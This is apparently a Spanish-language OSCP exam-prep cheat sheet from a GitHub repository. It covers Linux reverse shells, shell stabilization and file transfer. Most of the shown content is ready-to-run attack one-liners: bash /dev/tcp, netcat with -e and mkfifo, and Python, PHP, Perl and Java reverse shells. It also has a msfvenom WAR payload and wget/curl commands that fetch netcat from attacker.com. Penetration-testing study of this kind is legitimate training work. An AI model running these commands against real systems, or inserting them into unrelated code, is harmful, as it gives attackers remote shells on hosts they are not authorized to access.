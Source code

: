 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [General](#General)
  - [Information Ghatering](#Information-Ghatering)
    - [Port Scanning](#Port-Scanning)
    - 
  - [Pentesting Web](#Pentesting-Web)
    - [Webshells](#Webshells)
    - [LFI](#LFI)
    - [LFI TO RCE](#LFI-TO-RCE)
    - [RFI](#RFI)
    - [Wordpress](#Wordpress)
      - [Encontrando plugins]
      - [xmlrpc goes wild]
    - [Shellshock](#Shellshock)
    - [JWT](#JWT)
      - [WEAK SECRET](#WEAK-SECRET)
      - [PUBLIC KEY](#PUBLIC-key)
    - [SQLi](#SQLI)
      - [Blind SQLI](#BLIND-sqli)
  - [Crackeando hashes]
    - [Hashcat](#Hashcat)
    - [John the Ripper](#John-the-Ripper)
    - [Aplicando Reglas (ver delivery)](#Aplicando-Reglas)
  - [Port Forwarding/ Port Tunneling](#Port-Forwarding)
    - [Chisel](#Chisel)
    - [Plink](#Plink)
    - [Ncat](#Ncat)
    - [SSH](#SSH)
    - [Metasploit](#Metasploit)
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
    - [Java](#Java)
    - [Perl](#Perl)
    - [War msfvenom (tomcat manager)](#War)
    - [Groovy (Jenkins console)](#Groovy-(Jenkins-Console))
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Privilege Escalation](#Privilege-Escalation) 
  - [Escapando de Docker](#Escapando-de-Docker)
    - [Forma 1 ver ready]
    - [Forma 2 ver feline]
    - [Forma 3 ver tnb]
    - [Forma 4 ver final de reddish]
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python_t)
      - [Python3](#Python3)
      - [Apache](#Apache)
      - [Php](#PHP_t)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat_t)
    - [/dev/tcp/](#Dev-tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
  - [Bypassing de restricciones al inyectar comandos](#Bypassing-de-restricciones-al-inyectar-comandos)
  - [Bypassing restricted shells (rbash , rzsh,etc)](#Bypassing-restricted-shells-(rbash,rzsh,etc))    
- [Windows](#Windows)
- [Privilege Escalation - Linux](https://github.com/JohanS11/OSCP-NOTES/blob/main/Linux%20Privilege%20Escalation.md)
- [Privilege Escalation - Windows](https://github.com/JohanS11/OSCP-NOTES/blob/main/Windows%20Privilege%20Escalation.md)
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell UNIX Generator](https://resh.now.sh/yourip:1337)

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
#### War
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
  ```
#### Java
  ```bash
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
#### Groovy (Jenkins Console)

  ```bash
  cmd = """ whoami """
  println cmd.execute().text
  ```
#### Perl
  ```bash
  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python_t
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP_t
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat_t
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### Dev tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source cat FileToTransfer > /dev/tcp/targetip/4444 
  
  ## Forma 2 
  source nc -nlvp 444 > nc 
  target cat > nc < /dev/tcp/targetip/4444
  
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
